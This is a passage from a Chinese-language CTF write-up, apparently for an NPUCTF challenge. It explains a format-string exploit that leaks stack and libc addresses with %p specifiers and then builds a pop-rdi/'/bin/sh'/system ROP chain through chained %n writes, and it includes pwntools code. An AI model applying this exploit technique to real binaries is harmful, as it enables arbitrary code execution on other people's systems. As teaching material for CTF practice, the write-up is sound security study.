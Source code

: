   ```
    第七个(`%7$p`)指向main函数返回地址**__libc_start_main()的231偏移处**，溢出该值，可以计算得到`__libc_start_main()`的起始地址，进而得到`libc基址和system函数地址`
  
    ```python
    # get pop_rdi_ret and ret(这里的ret之后再说)
    sh.sendline('%6$p')
    pop_rdi_ret=int(sh.recv()[0:-1],16)-0x30+0x93
    ret=pop_rdi_ret-0x893+0x626
    
    log.info("pop_rdi_ret   --> [%s]"%hex(pop_rdi_ret))
    
    # get ret_addr————__libc_csu_init()+231
    sh.sendline('%7$p')
    ret_addr=int(sh.recv()[0:-1],16)
    
    log.info("ret_addr    --> [%s]"%hex(ret_addr))
    
    # get libcbase and system_addr
    libc_start_main=ret_addr-231
    libc=LibcSearcher('__libc_start_main',libc_start_main)
    libcbase=libc_start_main-libc.dump('__libc_start_main')
    
    log.info("libc_base   --> [%s]"%hex(libcbase))
    
    system_addr=libcbase+libc.dump('system')
    log.info("system_addr --> [%s]"%hex(system_addr))
    ```
  
- 但是我们不仅要读出来还要写进去啊，来看栈结构：
  
  ![stack](D:\文档\音视频图片\照片图片\typoraphoto\NPUCTFWP\TIM图片20200422220839.png)
  
  也就是说：**可以通过`...%9$n`来改写 0x7fffffffded8(第一个框)地址 所指向的 0x7fffffffdfa8(第二个框)中所存的数据**
  
  就好比以第一个框为跳板，改写第二个框中数据（通过**...%9$n**），使其指向我们想要修改的地址，然后通过第二个框 来改写 我们想要修改的地址处的数据（通过**...%35$n**）
  
  这就好办了，我们想要修改的地址就是**从main的返回地址开始**的一条ROP链，也就是从图中第二行开始，预计是（之所以说预计是因为后面会有小修改）
  
    - 改`dec8`（设为addr1）：pop_rdi_ret的地址
    - 改`ded0`（设为addr2）：/bin/sh字符串的地址
    - 改`ded8`（设为addr3）：system函数的地址
  
- 我们来缕一缕怎么实现这几个写操作：
  
    - 首先溢出`ded8`处的数据，通过**%9$p**即可，目的是得到当前栈的位置
    
    - 溢出该数据后，可以通过运算得到当前栈中(rbp+8)的地址，也就是上面说的**addr1**
      
      同时可以得到addr2，addr3的地址（是栈的地址而不是栈中存储的地址）
      
    - **注意：这里为了方便易看直接写成%int(...)c%xx$n的形式，同时也基于code的时候把细节实现封装为函数，实际上并非如此，详见代码**
    
    - 通过 **%int(addr1)c%9$n** 使`dfa8`指向 **addr1**
      
      通过 **%int(pop_rdi_ret)c%35$n** 将addr1中存储的数据改为 **pop_rei_ret指令段的地址**
      
    - 通过 **%int(addr2)c%9$n** 使`dfa8`指向 **addr2**
      
      通过 **%int(binsh_ret)c%35$n** 将addr1中存储的数据改为 **binsh字符串的地址**
      
    - 诶这里好像出现个问题，我们是通过`ded8`为跳板来实现任意地址写操作的，现在按预计来说要改`ded8`的地址，那岂不是乱套了？不慌，既然我们可以任意地址写，那就造一个新的跳板
    
    - 通过 **%int(addr1+32)c%9$n** 使`dfa8`指向 **addr1+32** 
  ```